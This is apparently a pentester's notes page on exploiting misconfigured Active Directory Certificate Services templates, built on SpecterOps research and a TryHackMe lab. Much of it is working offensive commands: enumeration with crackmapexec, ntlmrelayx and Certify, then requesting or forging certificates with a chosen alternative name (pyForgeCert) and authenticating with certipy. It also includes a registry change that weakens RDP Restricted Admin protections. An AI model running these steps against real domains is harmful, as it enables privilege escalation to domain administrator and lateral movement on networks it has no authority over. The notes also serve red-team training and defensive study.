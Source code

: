 # AD Certificate Exploitation

This a detailed article on Active Directory Certificate Exploitation most derived from resource that reference, but also the [SpectreOps Whitepaper](https://posts.specterops.io/certified-pre-owned-d95910965cd2) that demonstrated a proof to exploit misconfigured certificate template for [[Active-Directory-Lateral-Movement]] and [[Active-Directory-Privilege-Escalation]]. 

AD Certificate Services (CS) Microsoft's Public Key Infrastructure (PKI) implementation. Trust in external  or internal organisations is grant by AD, which cane used a as CA to prove and delegate trust. AD CS is a privileged function usually run by selected DCs, but large organisation use templating of certificates to make create and distribute certificates easier to manage. As Administrators of AD CS can create several templates that can then allow any user with the relevant permissions to request a certificate. These template have parameters that can be abused.

Terminology:

Acronym | Definition
--- | --- 
PKI |  Public Key Infrastructure is a system that manages certificates and public key encryption
AD CS | Active Directory Certificate Services is Microsoft's PKI implementation which usually runs on domain controllers
CA | Certificate Authority is a PKI that issues certificates
Certificate Template | a collection of settings and policies that defines how and when a certificate may be issued by a CA
CSR | Certificate Signing Request is a message sent to a CA to request a signed certificate
EKU |  Extended/Enhanced Key Usage are object identifiers that define how a generated certificate may be us

AD CS capabilities:
- Encrypts file systems
- Creates and verifies digital signatures
- Verifies user authenication

## Enumerating and Exploiting Cert Publishers

From [spectreops.io](https://posts.specterops.io/certified-pre-owned-d95910965cd2): *"AD CS is Microsoft’s PKI implementation that provides everything from encrypting file systems, to digital signatures, to user authentication (a large focus of our research), and more. While AD CS is not installed by default for Active Directory environments, from our experience in enterprise environments it is widely deployed, and the security ramifications of misconfigured certificate service instances are enormous."*

From Unix-base attacker machine:
See [[Crackmapexec-Cheatsheet]] and [[Impacket-Cheatsheet]]
```bash
rpc net group members "Cert Publishers" -U "DOMAIN"/"User"%"Password" -S "DomainController"
# Enumeration Tools
crackmapexec ldap 'domaincontroller' -d 'domain' -u 'user' -p 'password' -M adcs
go-windapsearch -m custom --filter '(objectCategory=pKIEnrollmentService)' --base 'CN=Configuration,DC=domain,DC=local' --attrs dn,dnshostname --dc 'domaincontroller' -d 'domain.local' -u 'user' -p 'password'
ntlmrelayx -t "ldap://domaincontroller" --dump-adcs
#

```
[go-windapsearch](https://github.com/ropnop/go-windapsearch)
[Certipy](https://github.com/ly4k/Certipy)

```powershell
net group "Cert Publishers" /domain

# Exploit
Certify.exe cas
```
[Certify C# Tool](https://github.com/GhostPack/Certify)

## Enumerating and Exploiting Vulnerable Certificate Templates

From [spectreop.io](https://posts.specterops.io/certified-pre-owned-d95910965cd2):*"AD CS Enterprise CAs issue certificates with settings defined by AD objects known as certificate templates. These templates are collections of enrollment policies and predefined certificate settings and contain things like “How long is this certificate valid for?”,“What is the certificate used for?”, “How is the subject specified?”, “Who is allowed to request a certificate?”, and a myriad of other settings...There is a specific set of settings for certificate templates that makes them extremely vulnerable. As in regular-domain-user-to-domain-admin vulnerable."*

From [Oliver Lyak's Twitter](https://twitter.com/ly4k_):
![](vulnerable-configurations-foresc1-esc2-esc3.png)

```powershell
certutil -v -template > cert_templates.txt
```

BEWARE VULNERABLITY != condition for PrivEsc, Human intervention from admins and domain controllers, you want to find all three: for each Template\[X\] find toxic parametre: ##

1. Relevant Permissions

A template where we have the relevant permissions to request the certificate or where we have an account with those permissions. Either Allow Enroll or Allow Full Control, probably will never find the latter
Template permissions are mostly assigned by group.
```powershell
net user <username> /domain
```

Look for these groups:
-  Domain Users 
- Domain Computers 
- Review all certificate permissions, lateral movement direction of an account that is potential vulnerable to compromise in the future .

2. Client Authentication
A template that allows client authentication, meaning we can use it for [Kerberos authentication]([[Active-Directory-Kerberos-Authenication-Defined]])
Review EKU properties of the template to find the words Client Authentication

3. Client Specifies Subject Alternative Name (SAN)
A template that allows us to alter the subject alternative name (SAN)
Usually a url that we then encrypt, 
```powershell
findstr "CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT" 
```
If  CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT = 1 we can specify the SAN ourselves


## Manual CS Abuse

Make a new Certificate with an RDP session - From [Alh4zr3d stream](https://www.twitch.tv/videos/1829218217) 
- `Search 'MMC' -> File -> Add/Remove Snap-in -> Certificate -> Add -> $account -> 'Snap-in always manage:' Local computer -> Ok`
- Find from `MMC` main: `Console Root -> Certificate (Local Computer) -> Trusted Root Certification Authority\ Certificates -> $yourCertInThisList -> [Left Click] to view, Edit Properties..., Copy to File...`
- Request a new Certificate `Console Root -> Certificate (Local Computer)\Personal -> [Right Click] Request New Certificate... -> Next -> Next (Configured by you or Configured by your administrator) -> Click to Configure settings`
	-  Subject Tab
		- Subject Name:
			- Type
			- Value
		- Alternative Name
			- Type
			- Value
	-  Private Key Tab
		- `Key Options -> [Tick] Make Private Key Exportable`  
- `Enroll`  after selecting Certificate on the Request Certificates 
- Export Certificate with `[Right Click] on Certificate -> All Tasks -> Export`
	- Export with Private Key - You need to Private Key
		- Make sure you have selected the option to make Private Key exportable in the `Private Key Tab`!
	- Disable Certificate Privacy
	- Create a Password
	- Export
	- 
 Get it back to your box somehow
```bash
certipy-ad cert -export -pfx ./admincCert.pfx -password "yourpassword" -out "unprotected.pfx"
certipy-ad auth -dc-ip 10.200.117.102 -ns 10.200.117.102 -pfx unprotected.pfx
```

Disable Restricted-Administrator settings to allow for RDP. Not Opsec safe if not obvious.
```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Export the certificate manual GUI non-usb-Mr-Robot-style  and either use C\# [GhostPack/ForgeCert](https://github.com/GhostPack/ForgeCert) or Python [pyForgeCert](https://github.com/Ridter/pyForgeCert) to forge certificate
```bash
python3 pyForgeCert.py -i $infile -pfx -p 'PasswordGoesHere' -s 'SubjectNameGoesHere' -a 'AltNameGoesHere' -o $outputPath 
```

Then export the certificate and authenticate
```bash
# Export
certipy-ad cert -export -pfx $forgedAdmin.pfx -password "yourpassword" -out "unprotected.pfx"
# Authenicate
certipy-ad auth -dc-ip 10.200.117.102 -ns 10.200.117.102 -pfx unprotected.pfx
```

# TODO scripting 
!! Line numbers /N
```powershell
find cert_template.txt "Allow Enroll"
# find cert_template.txt "Allow Full Control"
find cert_template.txt "Client Authentication"
find cert_template.txt "CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT"
```
put line numbers in an array, compare shortest with the others
if arrEnroll[i] is in a range of (+10 or -10) of arrAuth[j]

####  Impersonation Attacks via Certificates 
[[Rubeus-Cheatsheet]]


## References

[THM AD Certificate Templates Room](https://tryhackme.com/room/adcertificatetemplates)
[thehacker.recipes AD-CS](https://www.thehacker.recipes/ad/movement/ad-cs)
[thehacker.recipes Certificate Templates](https://www.thehacker.recipes/ad/movement/ad-cs/certificate-templates)
[spectreops.io certificate pre-owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
[Oliver Lyak's Twitter](https://twitter.com/ly4k_)
[Alh4zr3d stream](https://www.twitch.tv/videos/1829218217) 